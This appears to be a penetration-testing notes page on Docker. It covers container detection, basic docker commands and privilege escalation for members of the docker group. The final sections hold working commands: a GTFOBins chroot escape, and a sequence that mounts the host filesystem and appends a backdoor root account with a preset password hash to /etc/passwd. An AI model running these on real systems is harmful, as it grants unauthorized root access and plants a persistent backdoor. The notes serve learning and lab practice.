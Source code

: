 # Docker

### Check if you are inside a Docker

{% code overflow="wrap" %}
```bash
Target> if [ -f "/.dockerenv" ] || grep -qE "^/docker/|/docker-ce/|/containerd/|/lxc/|/docker-[[:alnum:]]+/" /proc/1/cgroup ; then echo "Running inside a Docker container"; else echo "Not running inside a Docker container"; fi
```
{% endcode %}

### Basic commands

{% code overflow="wrap" %}
```bash
# Check if docker service is running
sudo systemctl status docker

# If not running , start it
sudo systemctl stop docker
sudo systemctl start docker 

# List of images
docker images

# List of remote host images 
docker -H <target-ip>:2375 images

# List of running containers
docker ps -a

# Run the docker to an interactive container with a shell
docker exec -ti flast101 sh
-t: terminal
-i: interactive

# Connect to an running docker with an interactive shell 
docker exec -ti flast101 sh
-t: terminal
-i: interactive

# Run a docker 
docker run -di --name flast101 alpine:latest
-d: detach
-i: interactive
```
{% endcode %}

### Test your knowledge

[https://flast101.github.io/docker-privesc/](https://flast101.github.io/docker-privesc/)

{% code overflow="wrap" %}
```bash
# Do you understand this command and potential vulnerability?
docker run -tid -v /etc/:/mnt/ --name flast101 ubuntu:latest bash

# GTFOBins. If you are a member of the “docker” group, replace alpine to a target docker name and run it. 
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
{% endcode %}

### PE Local Enumeration

Linpeas.sh may catch the docker group account. In this case, you may be able to run the quick PE win below.

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

### Quick Privilege Escalation win

{% code overflow="wrap" %}
```bash
# Validate if you can run. If not, you will see permission denied.
docker ps -a

# Prepare a new root user.
passwd -1 -salt evil newrootpass

# Prepare a file new_account
cd /tmp
echo 'newroot:$1$evil$eu2ySQGNgNghQm4ASTnKa.:0:0:root:/root:/bin/bash' > new.txt

# Run docker
docker run -tid -v /:/mnt/ --name flast101 alpine

#Execute a bash command in the container that will add the new root user to the /etc/passwd file
docker exec -ti flast101 sh -c "cat /mnt/tmp/new.txt >> /mnt/etc/passwd"

# Login as root
su root
```
{% endcode %}

